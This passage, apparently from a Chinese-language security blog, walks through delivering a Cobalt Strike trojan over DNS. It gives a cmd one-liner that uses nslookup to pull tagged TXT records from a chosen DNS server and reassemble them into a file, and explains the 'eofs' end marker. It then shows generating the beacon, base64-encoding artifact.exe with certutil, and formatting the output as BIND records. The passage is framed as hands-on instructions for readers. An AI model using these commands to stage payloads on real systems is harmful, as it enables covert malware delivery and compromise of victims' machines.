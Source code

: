 这个时候我们再来看上面例子中传递任意字符的那条指令

    
    
    cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.mydomain.com 192.168.31.88 ^| findstr "exec"') do (set a=%i && set b=!b!!a:~5,-2!) && set c=!a:~-6,-2! && if "eofs" == "!c:~0,-1!" echo !b:~1,-4!" > ttt.txt  
    

这里有一个判断是 `if "eofs" == "!c:~0,-1!"` `"!c:~0,-1!"` 就是可以看成一个变量，这里的意思也就是如果这个变量等于
`eofs`，那么就 `echo !b:~1,-4!` ,也就是打印一个变量的值

这里的 `eofs` 是我自定义的，为了能够控制在全部字符传递结束后打印并重定向到文件中，我只能在 `TXT` 中的最后一行设置为 `execeofs`
，其中 `exec` 为 筛选用的 `flag` ，`eofs` 作为结束标志，并在最终的打印字符中将这四个字符去掉，这样才能取得完整的字符

## 0x06 再走一遍CS木马上线

这回把所有的知识点都解释了，我们来重新实施一遍，一次性让大家都能够实操

DNS服务器搭建这种就不说了，只说配置问题

### 生成木马文件

![](https://gitee.com/fuli009/images/raw/master/public/20221214112043.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221214112045.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221214112047.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221214112048.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221214112049.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221214112051.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221214112052.png)

### certutil 生成特定格式base64字符串

    
    
    certutil -encode artifact.exe a.txt  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221214112053.png)

### 将字符串处理成 BIND 配置文件

BIND 配置文件的字符格式为

    
    
    ("aaa"  
    "bbb"  
    "ccc)  
    